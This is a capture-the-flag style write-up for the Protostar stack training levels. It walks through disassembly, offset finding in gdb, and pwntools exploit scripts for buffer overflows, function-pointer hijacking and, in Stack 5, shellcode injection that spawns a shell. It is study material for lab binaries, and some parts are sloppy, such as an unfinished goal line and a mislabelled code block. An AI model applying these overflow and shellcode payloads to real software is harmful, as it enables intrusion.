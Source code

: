 ```yaml
---
title: Protostar Stack
data: 2025-04-23
categories:
  - pwn
---
```


# Protostar Stack Writeups

## Stack 0

**GOAL** : Modify a variable

```sh
0x08048405 <+17>:	lea    eax,[esp+0x1c]
0x08048409 <+21>:	mov    DWORD PTR [esp],eax
0x0804840c <+24>:	call   0x804830c <gets@plt>

```

This takes user input and stores it at [esp+0x1c]

```sh
   0x080483fd <+9>:	    mov    DWORD PTR [esp+0x5c],0x0
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Stores 0 into a variable, then compares the variable to 0;
IF true it prints "Try Again"
If false it prints "You have changed the 'modified variable"

**Ghidra Decompiled code**
```c

void main(void)

{
  char buffer [64];
  int please_change_me;
  
  please_change_me = 0;
  gets(buffer);
  if (please_change_me == 0) {
    puts("Try again?");
  }
  else {
    puts("you have changed the \'modified\' variable");
  }
  return;
}

```


---
## Developing Exploit

1. Find the  Offset (Using gdb)
	- set breakpoints at main function and `ret` instruction 
	- run the program in gdb 
	- Create pattern to fill in buffer 
```sh
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef1'
```

- Continue and fill in the program 
- check if the is a buffer overflow

```sh
gef➤  x/wx $ebp
0x61616174:	Cannot access memory at address 0x61616174

```
- Get the buffer size
```sh
gef➤  pattern search 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely

```

Buffer size = 76
Offset = 80 | because we need to override the ebp which takes up 4 bytes


**Exploit**
```python
#!/usr/bin/python3

from pwn import *

binary = "./stack0"
elf = ELF(binary)
p = process(binary)
#goal is to modify varaible
buf_size = 76
offset = 80

payload = b"A"*offset
payload += p32(0x2) # change the varible to 2

p.sendline(payload)
p.interactive()
```

## Stack 1

**Goal** : Modify the variable to be 

```
./stack1 $(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')
```

## Stack 2

Code

```c
void main(void)
{
  char buffer [64];
  int change_me;
  char *env;

  env = getenv("GREENIE");
  if (env == (char *)0x0) {
    errx(1,"please set the GREENIE environment variable\n");
  }
  change_me = 0;
  strcpy(buffer,env);
  if (change_me == 0xd0a0d0a) {
    puts("you have correctly modified the variable");
  }
  else {
    printf("Try again, you got 0x%08x\n",change_me);
  }
  return;
}
```

we need to put our exploit in the environment variable `GREENIE`

To modify the `change_me` variable we just need to fill in the buffer then put what we want to put in the `change_me` variable which is `\x0a\x0d\x0a\x0d` in this case (little endian)



```sh
export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
```

```sh
/stack2 
you have correctly modified the variable
```

## Stack 3

Source 

```c
void main(void)
{
  char buffer [64];
  code *func_ptr;
  
  func_ptr = (code *)0x0;
  gets(buffer);
  if (func_ptr != (code *)0x0) {
    printf("calling function pointer, jumping to 0x%08x\n",func_ptr);
    (*func_ptr)();
  }
  return;
}

void win(void)
{
  puts("code flow successfully changed");
  return;
}
```

Our exploit needs to fill up the buffer and call the address (pointer ) of the `win` function

**Exploit**

```python 
#!/usr/bin/python3

from pwn import *

binary = "./stack3"
elf = ELF(binary)
p = process(binary)

buffer_size = 64

addr = p32(elf.sym["win"]) # address of the win function 

payload = b"A"*buffer_size
payload += addr

p.sendline(payload)
p.interactive()
```

## Stack 4

```python
#!/usr/bin/python3

from pwn import *

binary = "./stack4"
elf = ELF(binary)
p = process(binary)

win_func = p32(elf.sym['win'])
buf_size = 76

payload = b"A"*buf_size
payload += win_func

p.sendline(payload)
p.interactive()
```

## Stack 5

```c
#!/usr/bin/python

from pwn import *

binary = "./stack5"
elf = ELF(binary)
p = process(binary)

buf_size = 76
shellcode = asm(shellcraft.sh())
ret_addr = p32(0xffffcdd0) # buffer address

payload = b"\x90"*(buf_size - len(shellcode))
payload += shellcode
payload += ret_addr

log.info(f"Buffer size: {buf_size}")
log.info(f"Shellcode size: {len(shellcode)}")
log.info(f"NOP sled size: {buf_size - len(shellcode)}")
log.info(f"Return address: {hex(u32(ret_addr))}")
log.info(f"Payload: {payload}")

p.sendline(payload)
p.interactive()
```